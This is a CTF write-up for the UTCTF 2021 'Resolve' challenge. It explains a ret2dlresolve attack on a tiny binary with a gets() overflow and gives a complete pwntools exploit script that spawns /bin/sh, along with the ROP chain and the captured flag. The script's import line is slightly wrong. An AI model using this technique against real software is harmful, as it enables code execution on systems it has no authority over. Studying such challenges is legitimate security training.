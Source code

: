 ```yaml
---
layout: post
title: "[UTCTF 2021] Resolve"
author: Kevin Zhang
---
```


We are given a very barebones binary that looks like this:

```
int main(void)

{
  char local_10 [8];
  
  gets(local_10);
  return 0;
}

```
Now the vulnerability is a classic buffer overflow but the problem is that this is all there is in the binary. There isn't any libc addresses in the stack or in any of the registers when we return. Since we can't find an address leak that means we can't just find the address of `system()` and create a rop chain using that. After some digging I was able to find that the attack is called a ret2dlresolve. Here is a blog with more info about that: https://ypl.coffee/dl-resolve/  

Now what we could do is write a ret2dlresolve payload by hand such as the one [here](https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62). No thanks. Fortunately, pwntools has a ret2dlsresolve module that will automatically generate the payloads for you. So our payload ends up being something like this:

```
from pwntools import *
context.binary = elf = ELF('resolve')
rop = ROP(elf)

dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])

# Allows us to write to any location. We want to write to where the dlresolve payload will be
rop.gets(dlresolve.data_addr)

# RET gadget for stack alignment.
rop.raw(0x00401159) 

# The dlresolve payload
rop.ret2dlresolve(dlresolve)

# Put it together
raw_rop = rop.chain()

p = elf.process()

# First gets() to setup the rop chain to write to the correct address
p.sendline(fit({8+context.bytes: raw_rop})) 

# Second gets() to send the dlresolve payload.
p.sendline(dlresolve.payload) 
p.interactive()
```

The rop chain looks something like this:

```
0x0000:         0x4011c3 pop rdi; ret                                                                                   
0x0008:         0x404e00 [arg0] rdi = 4214272                                                                           
0x0010:         0x401044 gets(arg0)                                                                                           
0x0018:         0x401159 ret; #for stack alignment                                                                   
0x0020:         0x4011c3 pop rdi; ret                                                                                   
0x0028:         0x404e50 [arg0] rdi = 4214352                                                                           
0x0030:         0x401020 [plt_init] system                                                                             
0x0038:         0x310 [dlresolve index]
```

Our overall program flow will look like `main()->pop rdi->gets()->pop rdi->system()->_dl_runtime_resolve()->system()`. The `pop rdi`'s are to setup arguments to functions later in the chain.

So just aim this at the server and ye shall receive the flag.  
`utflag{2_linker_problems_in_one_ctf?8079235}`

It's pretty cool that we can still call libc functions without the use of address leaks. This exploit will definitely be something that I keep in mind for the future. Although it was really simple for this challenge due to no PIE which probably simplified where we could put the dlpayload. Also pwntools is an awesome tool and thank god it exists.



